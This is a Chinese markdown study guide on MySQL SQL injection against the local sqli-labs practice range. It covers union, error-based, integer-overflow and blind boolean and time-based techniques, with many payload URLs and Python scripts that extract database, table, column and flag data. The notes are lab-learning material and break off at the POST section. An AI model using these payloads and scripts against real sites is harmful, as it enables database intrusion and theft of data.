

[TOC]


# 联合查询注入

## 字符串注入

**联合查询结果是将多个 select 语句的查询结果合并到一块**因为在某种情况下需要将几个 select 语句查询的结果合并起来显示。比如需要查询两个公司的所有员工的信息，这就需要从甲公司查询所有员工信息，再从乙公司查询所有的员工信息，然后将两次的查询结果进行合并。因为是拼接，所以**多个查询结果的字段数必须相同**。

例如：

```mysql
select name,passwd from user union select id,cname from class;
```


### 常用于与SQL注入点的判断的MySQL函数

- version() ---- MySQL版本
- user() ----数据库用户名
- database() ---数据库名
- @@datadir ---- 数据库路径
- @@version_compile_os ----- 操作系统版本
- concat(str,str2，......) ---- 没有分隔符地连接字符串
- concat_ws(separator,str1,str2,......) ----- 含有分隔符(separator)地连接字符串
- group_concat(str,str1,str2,......) ------- 连接一个组的所有字符串，并且以逗号分隔每一条数据。


进入靶场`sqli-labs`观看源码

```php
<?php
if(isset($_GET['id'])) //判断从get请求接收到的id参数是否为空
{
$id=$_GET['id'];  //传参
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";  //sql语句，插叙id对应的数据内容
$result=mysqli_query($con1, $sql); //执行查询
$row = mysqli_fetch_array($result, MYSQLI_BOTH); //类似于获取键值的说法，比如row[username]和raw[0]都可以获取用户名。
    if($row)
    {
      echo "<font size='5' color= '#99FF00'>";
      echo 'Your Login name:'. $row['username']; //上面创建的函数可知
      echo "<br>";
      echo 'Your Password:' .$row['password'];
      echo "</font>";
      }
    else 
    {
    echo '<font color= "#FFFF00">';
    print_r(mysqli_error($con1)); //如果不存在报错
    echo "</font>";  
    }
}
    else { echo "Please input the ID as parameter with numeric value";}
?>
```


获取数据库名

```powershell
localhost/***/***/?id='-1' union select 1,2,database() %23
```

```powershell
select id,username,passwd from users where id='-1' union select 1,2,database() %23
# %23经过编码为#,在mysql中为注释符号
```


在已知数据库之后，通过MySQL系统表：information_schema可以用于获取数据库内所有表名和列名

在 SQL 注入中,我们重点关注的表有如下几个,因为主要的时候主要利用这几个表来获取数据:

- SCHEMATA: 提供了当前 MySQL 数据库中所有数据库的信息,其中 SCHEMA_NAME 字段保存了所有的数据库名 .show databases 的结果就是取自此表；
- TABLES: 提供了关于数据库中的表的信息,详细表述了某个表属于哪个 schema,表类型,表引擎,创建时间等信息,其中 table_name 字段保存了所有列名信息；
- COLUMNS: 提供了表中的列信息.详细表述了某张表的所有列以及每个列的信息,其中 column_name 保存了所有的字段信息。


下列为全部过程

```url
获取数据库名
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,database() %23
记得使用错误id来获取我们所需要的数据。
```


```url
获取表名
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="answers"; %23
```


```url
获取列名
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where column_name="flags"; %23
```


```url
获取flag
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,flag from answers.flag where stage="2"; %23
由题意已经给出在stage="2"的
```


## 闭合引号注入

对 union 联合查询注入进行强化，学会通过报错信息推测原 SQL 语句结构，辅助构造 SQL 注入语句,下面逐一给出

`$sql="select * from user where id=各种类型"`

- 第一种情况为纯数字类型

`select * from users where id=$id;`

- 第二种为括号型

`select * from user where id="($id)"`

`select * from user where id=('$id')`

- 第三种为双引号包裹

`select * from user where id='"$id"' `


> [!IMPORTANT]
>
> `SELECT * FROM users WHERE id=("1'") LIMIT 0,1`
>
> `1'`被当作字符串带入查询中，所以没有报错，至于为什么能够查询到id=1的用户信息，这就涉及到**MySQL中数据类型之间比较的问题users表中id字段本身为int类型**,**会将字符串转化为int**，然后进行比较，转化规则是**从第一个数字开始转化，遇到字符后则结束**，若第一个字符不为数字，则比较时直接为Null
>
> 例如:
>
> - ‘123ad’ 转化为123
> - ‘12345dada’转化为12345
> - ‘123dad123’转化为123
> - ‘ad123’ 转化为Null


这部分不进行截图，懒。自己去试就行了，和之前的一样。


# 报错注入

## Xpath语法报错

何谓报错注入呢，**报错注入就是构造 payload 让敏感信息通过报错信息回显出来**。


### 什么是Xpath？

Xpath表示XML路径语言。使用非XML语法来提供一种灵活地定位 （指向）

> [XPath 节点](https://www.w3school.com.cn/xpath/xpath_nodes.asp)

其实我认为就是将每个标签元素作为一个文件夹，然后里面数据在文件夹中进行存储，使用的时候就能进行调用即可

AI对我的思路进行解析：

你的理解有一定道理，但不完全准确。XPath确实是用于**定位XML文档中节点的语言，但它并非简单地将标签元素当作文件夹**。**XML文档是树形结构**，XPath就像地图，指引你找到树上的特定节点。每个标签（元素）、属性、文本内容等都是树上的节点。**XPath通过路径表达式来定位，比如“/bookstore/book/title”能定位到所有book元素下的title子元素。**它有绝对路径（从根开始）和相对路径（从当前节点开始），还支持通配符、谓词等高级功能，能更灵活地筛选和定位节点，不只是简单的层级查找。

```powershell
		1
	2	3	4
5	6	7	8	9
```


### 什么是XML？

XML即可扩展标记语言（eXtensible Markup Language）。它是一种用于标记电子文件使其具有结构性的标记语言。

XML的**设计宗旨是传输数据**，而非显示数据。它具有自我描述性，通过**自定义标签来描述数据内容**，例如 `<姓名>张三</姓名>` 。不同应用程序可根据需求定义自己的标签集。

与HTML不同，HTML主要用于页面展示，有固定标签；XML标签可自由定义，更注重数据的结构和语义。

XML在数据交换、配置文件、Web服务等领域广泛应用。它能实现不同系统间数据的高效传输与共享，因为其结构清晰，易于解析和处理，许多软件和编程语言都提供了对XML的支持。


### 函数：

|      名称      |                描述                |
| :------------: | :--------------------------------: |
| ExtractValue() | 使用XPath表示法从XML字符串中提取值 |
|  UpdateXML()   |         返回替换的XML字段          |

>ExtractValue(xml_frag, xpath_expr)
>
>ExtractValue()接受**两个字符串参数**，一个 **XML 标记片段 xml_frag 和一个 XPath 表达式 xpath_expr（也称为 定位器）**; 它返回 CDATA 第一个文本节点的 text（），该节点是 XPath 表达式匹配的元素的子元素。
>
>第一个参数可以传入目标 XML 文档
>第二个参数是用 Xpath 路径法表示的查找路径
>例如：`SELECT ExtractValue('<a><b><b/></a>’, ‘/a/b')`; 就是寻找前一段 XML 文档内容中的 a 节点下的 b 节点，这里如果 Xpath 格式语法书写错误的话，就会报错。这里就是利用这个特性来获得我们想要知道的内容。


#### extractvalue 函数+

使用ExtractValue函数进行报错注入时通常使用如下的payload

`and extractvalue(1,concat('~',database()));`

上面这串payload的意思是，在1标签中进行查找`~database()`的值，concat用于将数据库名与~进行连接

> [!NOTE]
>
> 使用字母是没法报错的，但数字字符是可以


##### 进行实例测试Less-4 ：

payload : 获取所有数据库名

`http://localhost/sqli-labs/Less-4/?id=-1%22)%20and%20extractvalue(%271%27,concat(%27~%27,(select%20group_concat(schema_name)%20from%20information_schema.schemata%20limit%200,1)));%20%23`

> [!NOTE]
>
> 使用 limit 0,1、limit 1,1、等控制偏倚即可查询到所有数据库，也使用 group_concat 一次性全部查询出来。


> [!IMPORTANT]
>
> updatexml () 函数和extractvalue ()的报错内容长度都不能超过 **32 个字符**
>
> 所以需要使用mid函数来进行字符串截取
>
> 语法：mid(a,b,c)
>
> 从位置b开始，截取a字符串的c位。


获取表名

```url
攻击链接
http://localhost/sqli-labs/Less-4/?id=-1%22)%20and%20extractvalue(1,concat(%27~%27,(select%20mid(group_concat(table_name),1,32)%20from%20information_schema.tables%20where%20table_schema=%27answers%27)))%20%23

payload:
1") and extractvalue(1,concat('~', (select mid(group_concat(table_name),1,32) from information_schema.tables where table_schema='answers'))) %23
```


获取列名

```url
id=-1") and extractvalue(1,concat('~',(select mid(group_concat(column_name),1,32) from information_schema.columns where table_name='flags'))) %23
```


获取flag

```url
id=-1") and extractvalue(1,concat('~',(select group_concat(flag) from answers.flags))) %23
```


其中updatexml的用法与extractvalue的用法一样。

#### updatexml函数解析：

| 名称        | 描述              |
| ----------- | ----------------- |
| UpdateXML() | 返回替换的XML片段 |


> 语法:  updateXML(xml_target，xpath_expr，new_xml)
>
> xml_target : 需要操作的XML片段
>
> xpath_expr: 需要更新的XML路径(Xpath格式)
>
> new_xml : 更新后的内容


案例 : 

`mysql> SELECT
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/a', '<e>fff</e>') AS val1,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/b', '<e>fff</e>') AS val2,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '//b', '<e>fff</e>') AS val3,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val4,
    ->   UpdateXML('<a><d></d><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val5
    -> \G
***********结果**************
val1: <e>fff</e>
val2: <a><b>ccc</b><d></d></a>
val3: <a><e>fff</e><d></d></a>
val4: <a><b>ccc</b><e>fff</e></a>
val5: <a><d></d><b>ccc</b><d></d></a>`

payload: `and UpdateXML(1,concat(0x7e,database(),0x7e),1
))#`

> [!tip]
>
> 这是一个与数据库注入攻击相关的代码片段。
>
> “UpdateXML”是MySQL中的一个函数，用于更新XML文档中的特定节点值。但在此处，它被恶意利用。
>
> “1”是目标XML文档的标识符（这里可能是示例或占位符）。
>
> “concat(0x7e,database(),0x7e)”是关键部分。`concat`函数用于连接字符串，`0x7e`是波浪号“~”的十六进制表示。`database()`是MySQL的一个函数，返回当前数据库的名称。整体上，这部分代码的作用是将当前数据库名称包裹在两个波浪号之间。
>
> 最后的“1))#”中，“1”可能是用于占位或满足语法要求，“#”在MySQL中表示注释，用于注释掉后续原本应该存在的代码，从而截断原SQL语句，确保恶意代码能单独执行。
>
> 简言之，这是一个构造精巧的SQL注入攻击片段，旨在窃取当前数据库名称。


直接将所有的payload放一起，其中出来的答案与原来的一样

> [!NOTE]
>
> 其实在注入的时候，使用单引号还是双引号可以通过前面参数使用的闭合符号来进行判断，也就是和前面参数使用的闭合符号一样基本就行了。


##### 实例`sqli-labs/Less-3`

获取所有数据库

```url
id=-1') and updateXML(1,(select concat('~',mid(group_concat(database()),1,32))),1) %23
# 记住，updateXML和extractvalue函数都有着长度限制，32位。
```

获取所有的表名

```url
id=-1') and updateXML(1,concat('~',(select mid(group_concat(table_name),1,32) from information_schema.tables where table_schema='answers')),1) %23
```

获取所有的列名

```url
id=-1') and updateXML(1,concat('~',(select mid(group_concat(column_name),1,32) from information_schema.columns where table_name='flags')),1) %23
```

获取flag

```url
id=-1') and updateXML(1,concat('~',(select mid(group_concat(flag),1,32) from answers.flags)),1) %23
```


## 几何函数报错

几何函数的报错注入利用基本上只能在较低版本的 MySQL 中使用。

> 利用版本：5.5< MySQL版本<5.6


## 整数溢出报错

这个报错基于MySQL中整数溢出的原理,不仅仅只有如下的几种方法

> [!NOTE]
>
> BIGINT UNSIGNED不能表示负数

```mysql
mysql> select ~0;
+----------------------+
| ~0                   |
+----------------------+
| 18446744073709551615 |
+----------------------+
1 row in set (0.00 sec)
mysql> select ~(select version());
+----------------------+
| ~(select version())  |
+----------------------+
| 18446744073709551610 |
+----------------------+
1 row in set, 1 warning (0.00 sec)
mysql> select ~(select user());
+----------------------+
| ~(select user())     |
+----------------------+
| 18446744073709551615 |
+----------------------+
1 row in set (0.00 sec)
mysql> select exp(~(select * from(select version())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '5.5.29' from dual)))'
```


#### 大整数运算报错注入

`select !(select * from (select user())x);`

- ### **步骤拆解**

  1. **最内层子查询 `(select user())`**
     - **作用**：获取当前 MySQL 用户信息（格式如 `'用户名@主机名'`，例如 `'root@localhost'`）。
     - **返回值**：一个字符串（如 `'root@localhost'`）。
  2. **别名子查询 `select * from (select user())x`**
     - **作用**：将第一步的结果作为一个临时表 `x`，并用 `select *` 查询它。
     - **返回值**：与第一步相同，即用户字符串（如 `'root@localhost'`）。
  3. **逻辑非运算符 `!`**
     - **作用**：对子查询的结果进行逻辑非运算。
     - **关键规则**：MySQL 会将**非数值类型的值隐式转换为数值**：
       - 如果字符串以数字开头（如 `'123abc'`），转换为开头的数字（如 `123`）。
       - 如果字符串不以数字开头（如 `'root@localhost'`），直接转为 `0`。
     - **计算过程**：
       - 用户字符串（如 `'root@localhost'`）转为数值 `0`。
       - 逻辑非运算 `!0` 结果为 `1`（因为 `0` 表示假，非假即真，对应 `1`）。

`select ~(select * from (select user())x);`

- `~`代表**按位取反运算符**
- 非数值类型的值隐式转换为数值
- 然后再使用按位取反运算进行运算。

> [!NOTE]
>
> - 函数成功执行后返回0
> - 0取反可以得到最大的无符号BIGINT值：18446744073709551615


怎么触发报错？使用较小的数 `-~0`可以触发报错，除了它本身，任何数减去他都为负数

`mysql> select 0-~0;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(0 - ~(0))'
mysql> select 1- ~0;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 - ~(0))'
mysql> select 2- ~0;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(2 - ~(0))'
mysql> select 3- ~0;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(3 - ~(0))'`


#### Less-6 payload:

获取所有的所有数据库名

```url
id=1" and (select !(select * from (select group_concat(schema_name) from information_schema.schemata)x) -~0) %23
```


获取所有的表名

```url
id=1" and (select !(select * from (select group_concat(table_name) from information_schema.tables where table_schema="answers")x) -~0) %23
```


获取所有的列名

```url
id=1" and (select !(select * from (select group_concat(column_name) from information_schema.columns where table_name="flags")x) -~0) %23
```


获取flag

```url
id=1" and (select !(select * from (select group_concat(flag) from answers.flags)x) -~0) %23
```


### EXP函数报错

`EXP()` 函数用于计算 **自然指数函数**，即返回数学常数 **e**（约等于 2.71828）的指定次幂。以下是详细说明：

`EXP(x)`

- 参数: x 是一个数值表达式
- 返回值：e^x,结果为浮点数

> [!IMPORTANT]
>
> 当传递给 exp 函数一个大于 709 的数值时，会引起一个报错

使用实例: `select exp(~(select * from (select group_concat(schema_name) from information_schema.schemata)x)) %23`

自己去靶场进行实践。


### pow函数报错

数值范围一直都是18446744073709551615

公式 : `pow(x,y) = x^y`

实例: `select pow(~(select * from (select group_concat(shcema_name) from informatiom_schema.schemata)x)) %23`


### cot函数报错

公式如下:
$$
cot(x)=\frac{cos(x)}{sin(x)}
$$
实例: 待会再写


## 列名重复报错


#### 列名重复报错原理: 

`select count(*) floor(rand(0)*2) as a from users group by a`

- rand函数用于获取随机数，其中括号中间的数为‘种子‘,随机数的起点。(默认为0-1之间的数)
- floor函数代表着将他转换为离他最近的整数，例如: 1.1 = 1, 1.9 =1等
- group by 代表着分组
- count函数用于统计

总结 : 由于rand函数是一个伪随机函数，所以会导致有重复的查询键值的出现，然后在进行分组统计时就会键值报错，因为出现了多次相同的键值。


> [!TIP]
>
> `select rand() from users` 有users表有几串数据运行几次。 

具体见:[Mysql报错注入之floor(rand(0)*2)报错原理探究 - FreeBuf网络安全行业门户](https://www.freebuf.com/column/235496.html)


示例报错: 

```mysql
select count(*) ,concat(version(),floor(rand(0)*2)) as x from users group by x

ERROR 1062 (23000): Duplicate entry '5.5.29-log1' for key 'group_key'
```


> [!TIP]
>
> 0x7e转换为十进制是 126，计算方法是 7×16¹ + 14×16⁰ 

实例演示:  Less-7

获取所有数据库名

`id=1')) and (select 1 from (select count(*) ,concat((select concat(0x7e,schema_name,0x7e) from information_schema.schemata LIMIT 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) %23`

- 拼接顺序

  - 先是查询数据库名所有内容

    - 对数据库名与0x7e进行拼接 --- `0x7e`可以转变成`~`

      

    - 记得添加limit

  - 然后与floor(rand(0)*2)进行拼接，以此来获取key值报错

    - 表名可乱选

  - 最外面为可自己任选的查询表统合操作

- 先进行内部查询，获取所有的数据库名，然后与随机数进行拼接，再以这些作为key值，等到报错时刚好就会爆出key值内的错误，也就是所有的数据库名。

- 在老师的解释中，后面跟上的表可以不是`information_schema.tables`，可以是`information_schema.columns`。唯一需要注意的是表内得拥有足够多的数据。可以结合上面的注释进行理解

- 里面有三个select ,其中第二个表可以随意选择，第三个也就是最外面的可以不用选择，第一个选择自己需要爆的内容。

> [!IMPORTANT]
>
> 如果想要对其他的数据库名进行查询可以修改limit，例如修改为limit 1,1可以查询到answers数据库名等等


爆表名: 

`id=1')) and (select 1 from (select count(*),concat((select concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='answers' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) %23`


爆列名:

`id=1')) and (select 1 from (select count(*),concat((select concat(0x7e,column_name,0x7e) from information_schema.columns where table_name='flags' limit 0,1),floor(rand(0)*2))s from information_schema.tables group by s)a) %23`


> [!Important]
>
> 使用limit 0,1 或者limit 1,1才能更加完整的获取所有列名。


获取flag

`id=1')) and (select 1 from (select count(*),concat((select concat(0x7e,flag,0x7e) from answers.flags where stage=7 limit 0,1),floor(rand(0)*2))s from information_schema.tables group by s)a) %23`


# 盲注

盲注就是在 SQL 注入过程中，SQL 语句执行的选择后，选择的数据不能回显到前端页面。这样的情况下，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注

盲注分为三类：

- 基于 bool 的 SQL 盲注 。
- 基于时间的 SQL 盲注 。
- 基于报错的 SQL 盲注。


### 部分字符串操作函数与关键字

#### left()函数

left(a,b) 从左侧截取 a 的前 b 位

示例: 


#### right()函数则和left差不多


#### substr()、substring()函数

substr(str,start,len) 从start开始，截取str字符串的end长度

`substring("Hello, World!", 7, 12)`会返回"World" ---- 不做演示

示例 : 


#### ascii()函数

ascii()将某个字符转换为 ascii 值。

> [!TIP]
>
> [ascii码表]([ASCII码 - 基本ASCII码和扩展ASCII码,中文最全ASCII码对照表0~255](https://www.asciim.cn/))

```mysql
mysql> select ascii('a');
+------------+
| ascii('a') |
+------------+
|         97 |
+------------+
1 row in set (0.00 sec)

mysql> select ascii('d');
+------------+
| ascii('d') |
+------------+
|        100 |
+------------+
1 row in set (0.00 sec)

```


#### Ord函数

Ord与ascii函数一样的功能，在python中也可以使用Ord函数。


#### mid函数

mid(a,b,c)从位置b开始，截取a字符串的c位（与substr相同）。

```mysql
mysql> select mid(database(),2,5);
+---------------------+
| mid(database(),2,5) |
+---------------------+
| ecuri               |
+---------------------+
1 row in set (0.00 sec)
mysql> select mid(database(),1,5);
+---------------------+
| mid(database(),1,5) |
+---------------------+
| secur               |
+---------------------+
1 row in set (0.00 sec)
```


#### regexp 关键字

用于正则表达式匹配，用法如下：

```mysql
select user() regexp '^[a-z]';
# user()结果为 root，regexp 为匹配 root 的正则表达式
```


like 关键字
和 regexp 类似，用于使用正则表达式匹配。

```mysql
select user() like 'ro%'
```


#### if 函数

语法:

`IF(condition,value_if_true,value_if_false)`

- `condition`为必须，判断条件。
- `value_if_true`为可选，当条件是`true`值返回的值
- `value_if_false`为可选，当条件是`false`值返回的值。

```mysql
mysql> SELECT IF(500<1000, 5, 10);
+---------------------+
| IF(500<1000, 5, 10) |
+---------------------+
|                   5 |
+---------------------+
1 row in set (0.00 sec)
```


## bool盲注

> [!tip]
>
> 越到后面，脚本优化的更好，可自行选择观看。

使用`sqli-labs/Less-8`来进行测试

直接使用 `sqli-labs/Less-8/?id=1`就知道怎样才算是正确的没有报错。下图为正确示例图:



#### bool盲注的注入条件:

- 注入点能够构造出bool值true和false。
- 根据注入点构造的true和false，页面会有不同的回显。


**其实就是通过页面的显示来进行判断猜测是否正确，然后再进行数据猜测。**

payload : `id=1' and ascii(substr(version(),1,1))=5 %23`

如果返回的是` You are in ......`，则代表着正确。


> [!TIP]
>
> 如果出现了不懂得地方可以多往下看看，说不定会有解释。


因为猜测需要大量的时间来猜测，所以使用python来进行辅助爆破。

参考代码 : 用于爆破MySQL版本的

```python
import requests
import re
import string

url = "http://127.0.0.1/sqli-labs/Less-8"
chars = '0123456789.'
result = ''

for i in range(1,10):
    print('*'*10,i,'*'*10)
    max = 58
    min = 45
    while max != min:
        mid = (max+min)//2

        url = "http://127.0.0.1/sqli-labs/Less-8/?id=1' and ord(substr(version(),{},1))>{} %23"
        urlformat = url.format(i,mid)
        print('[*] url:',urlformat)

        res = requests.get(urlformat).text

        if max == (min+1):
            break
        # min = 1,max= 7,mid = 4, ans = 3
        # if i < mid:  i属于[min,mid]
        # elif i > mid: i属于[mid,max]
        if re.search("You are in",res):  
            min = mid
        else:
            max = mid
    result += chr(max)  #进行转码
    print(result)
```


> [!TIP]
>
> 如果出现了全部为！的问题，非常大的概率是因为里面的SQL语句出现了问题。

开始进行编写爆破数据库名

内部有解析

```python
# 爆破数据库名
import requests
import re
import string 
# payload : id=1' and ord(substr(select group_concat(schema_name) from information_schema.schemata),{},1)>{}
# mysql命名规则: 使用小写字母和下划线 ----> ascii(97,122)  ascii('_') = 95

# 获取所有特殊符号和非特殊符号
chars = 'abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.'
result = ''

# 自己根据数据库名长度来对范围进行调整
# 我试试超出范围会发生什么问题
# 没有问题，会自动转换成！号
# 为什么会转换成！
# 进行演算：假设这个没有值，那么会一直返回false，max = mid,直至max = min+1,max = 33
# 此时的ascii(33) = !
for i in range(1,10):
    print('*'*15,i,'*'*15)
    min = 32
    max = 126

    while min != max:
        mid = (max + min) // 2  # 因为向下整除的原因，迟早会出现max = min + 1 
        url = f"http://localhost/sqli-labs/Less-8/?id=1' and ord(substr((select group_concat(schema_name) from information_schema.schemata),{i},1))>{mid} %23"

        print('[*]:',url)

        res = requests.get(url).text

        if max == min+1: # [1,5] mid = 3,ans = 4 # True[3,5] mid = 4 # ans = mid False[3,4] # min+1 = max
            break

        if re.search("You are in",res): # 如果这个值大于mid,i属于[mid,max]
            min = mid
        else:
            max = mid
    result += chr(max)
    print(result)
```


> [!important]
>
> chars可有可无，如果需要使用就是另一种写法了，主要是使用模拟可能会更快一些。

爆表名

```python
import requests
import re
import string

result = ''

for i in range(1,20):
    print('*'*15,1,'*'*15)
    min = 32
    max = 127
    while min != max:
        mid = (min+max)//2
        url = f"http://127.0.0.1/sqli-labs/Less-8/?id=1' and ord(substr((select group_concat(table_name) from information_schema.tables where table_schema='answers'),{i},1))>{mid} %23"

        print('[*] :',url)
        response = requests.get(url).text  # text用于将内容以文本的返回
        if max == min+1:
            break
        if re.search("You are in",response):
            min = mid # [mid,max]
        else:
            max = mid # [min,mid]
    result += chr(max)
    print(result)

```


爆列名

```python
# 获取列名
import requests
import re
import string

ans = ''

for i in range(1,20):
    print('*'*15+f'{i}'+'*'*15)
    min = 32
    max = 127

    while min != max:
        mid = (min+max)//2
        url = f"http://localhost/sqli-labs/Less-8/?id=1' and ord(substr((select group_concat(column_name) from information_schema.columns where table_name='flags'),{i},1))>{mid}"

        print('[*] :',url)
        res = requests.get(url).text

        if max == min+1:
            break

        if re.search("You are in",res):
            min = mid # [mid,max]
        else:
            max = mid # [min,max]
    ans += chr(max)
    print(ans)
```


获取flag

```python
# 获取flag
import requests
import re
import sys

ans = ''

for i in range(1,20):
    print('*'*15+f'{i}'+'*'*15)
    
    min = 32
    max = 127
    while min != max:
        mid = (min + max)//2
        url = f"http://localhost/sqli-labs/Less-8/?id=1' and ord(substr((select flag from answers.flags where stage=8),{i},1))>{mid} %23"

        print('[*]:',url)
        res = requests.get(url).text

        if max == min+1:
            break

        if re.search("You are in",res):
            min = mid # [mid,max]
        else:
            max = mid # [min,mid]
    ans += chr(max)
    print(ans)    
```


> [!note]
>
> 如果懒得话，可以一开始就设置for循环得界限为100，虽然运行的久了点，但是数据肯定不会少.......具体有多久，自己猜去吧。


## sleep函数

查询错误返回的页面与正确的页面一摸一样，所以得使用sleep来进行判断。

sleep(5)就是睡眠5秒，不多做说明

手动测试得到payload : `id=1' and if(ord(substr(version(),1,1))=53,sleep(5),1) %23`

与之前的一样，使用python编写脚本，然后进行爆破。

原理很简单，就是通过发送前时间与接收数据之后的时间差，来进行判断，一旦超过了sleep时间，则代表成功。也就是用这个来当作判断条件。

> [!important]
>
> 因为使用时延，所以会导致爆表会消耗大量时间，所以不会给出所有内容。

获取数据库名

```python
import requests
import time

ans = ''
for i in range(1,15):
    print('*'*15,i,'*'*15)
    min = 30
    max = 128
    
    while min != max:
        mid = (min+max)//2
        start_time = time.time()
        url = "http://localhost/sqli-labs/Less-8/?id=1'"\
        f" and if(ord(substr((select group_concat(schema_name) from information_schema.schemata),{i},1))>{mid},sleep(3),1) %23"
        print('[*]:',url)
        res = requests.get(url).text
        if min == max - 1:
            break

        if time.time()-start_time > 3:
            min = mid # [mid,max]
        else:
            max = mid # [min,mid]
    ans += chr(max)
print(ans)
```


获取表名 --- 自测没问题

```python
import requests
import time

ans = ''
for i in range(1,15):
    print("*"*15,i,"*"*15)
    min = 32
    max = 128

    while min != max:
        mid = (min+max)//2
        start_time = time.time()
        url = "http://localhost/sqli-labs/Less-9/?id=1'"\
             f" and if(ord(substr((select group_concat(table_name) from information_schema.tables where table_schema='answers'),{i},1))>{mid},sleep(3),1) %23"
        res = requests.get(url).text
        if min+1 == max:
            break
        
        if time.time()-start_time > 3:
            min = mid #[mid,max]
        else:
            max = mid # [min,mid]
    ans += chr(max)
print(ans)
```


获取列名

```python
# 获取列名
import requests
import time
ans = ''
i = 1
vis = 0
while True:
    print("*"*15,i,'*'*15)
    min = 32
    max = 128

    while min != max:
        mid = (min+max)//2
        start_time = time.time()
        url = "http://localhost/sqli-labs/Less-9/?id=1'"\
             f" and if(ord(substr((select group_concat(column_name) from information_schema.columns where table_name='flags'),{i},1))>{mid},sleep(3),1) %23"
        res = requests.get(url)

        if max == min+1:
            break
        
        if time.time() - start_time > 3:
            min = mid # [mid,max]
        else:
            max = mid # [min,max]
    i += 1
    if chr(max) == '!':
        vis += 1
    if vis == 2:
        break
    ans += chr(max)
    print(ans)
print(ans)
```


获取flag

```python
# 获取flag
import requests
import time
ans = ''
i = 1
vis = 0

while True:
    print('*'*15,i,'*'*15)
    min = 32
    max = 128

    while min != max:
        mid = (min+max)//2
        start_time = time.time()
        payload = f"?id=1' and if(ord(substr((select flag from answers.flags where stage=9),{i},1))>{mid},sleep(3),1) %23"
        
        url = f"http://localhost/sqli-labs/Less-9/{payload}"
        res = requests.get(url).text
        if min + 1 == max:
            break
        if time.time()-start_time > 3:
            min = mid # [mid,max]
        else:
            max = mid # [min,mid]
    i += 1
    if chr(max) == '!':
        vis += 1
    if vis == 2:
        break
    ans += chr(max)
    print(ans)
print(ans)
"""
```


## benchmark函数

这个是通过BENCHMARK(count,expr)，用于测试函数的性能

- count : 为次数
- expr : 要执行的表达式

```mysql
mysql> select BENCHMARK(12000000,MD5(1));
+----------------------------+
| BENCHMARK(12000000,MD5(1)) |
+----------------------------+
|                          0 |
+----------------------------+
1 row in set (3.54 sec)  -- 3.54
```


一样的，使用Less-9

payload : `id=1' and if(ord(substr(,1,1)=54),benchmark(12000000,md5(1)),1) %23`

> [!WARNING]
>
> 延时大概3秒左右，这个函数不建议使用，因为它会受到电脑性能的影响导致时差不同，获取的数据自然就不对，我下面的几个模板只做参考

获取数据库名

```python
import time
import requests

ans = ''

for i in range(1,15):
    print('*'*15,i,'*'*15)
    min = 32
    max = 128
    while min != max:
        mid = (min+max)//2
        start_time = time.time()
        url = "http://localhost/sqli-labs/Less-9/?id=1"\
        "and if(ord(substr((select group_concat(schema_name) from information_schema.schemata),{i},1))>{mid},benchmark(12000000,md5(1)),1) %23"
        res = requests.get(url).text
        if min+1 == max:
            break
        if time.time()-start_time > 3:
            min = mid # [mid,max]
        else:
            max = mid # [min,mid]
    ans += chr(max)
    print(ans)
print(ans)
        
```


获取表名

```python
# 获取列名
import requests
import time

ans = ''
i = 1
vis = 0
while True:
    print("*"*15,i,"*"*15)
    min = 32
    max = 128

    while min != max:
        mid = (min+max)//2
        payload = f"?id=1' and if(ord(substr((select group_concat(table_name) from information_schema.tables where table_schema='answers'),{i},1))>{mid},benchmark(12000000,md5(1)),1) %23"
        url = f"http://localhost/sqli-labs/Less-9/{payload}"
        start_time = time.time()
        res = requests.get(url)

        if min + 1 == max:
            break
        if time.time() - start_time > 3:
            min = mid # [mid,max]
        else:
            max = mid # [min,mid]
    i += 1
    if chr(max) == '!':
        vis += 1
    if vis == 2:
        break
    ans += chr(max)
    print(ans)
print(ans)
```


# POST注入

您可以通过 **实际提交表单后的行为差异** 和 **浏览器开发者工具的网络请求分析** 来更直观地理解 GET 和 POST 的区别。以下是完整演示步骤：

---

### **1. 编写对比测试的 HTML 文件**
```html
<!DOCTYPE html>
<html>
<head>
    <title>GET vs POST 对比</title>
</head>
<body>
    <!-- GET 表单 -->
    <h2>GET 方法</h2>
    <form action="https://httpbin.org/get" method="get" target="_blank">
        <input type="text" name="username" placeholder="用户名" required>
        <input type="password" name="password" placeholder="密码" required>
        <button type="submit">GET 提交</button>
    </form>

    <!-- POST 表单 -->
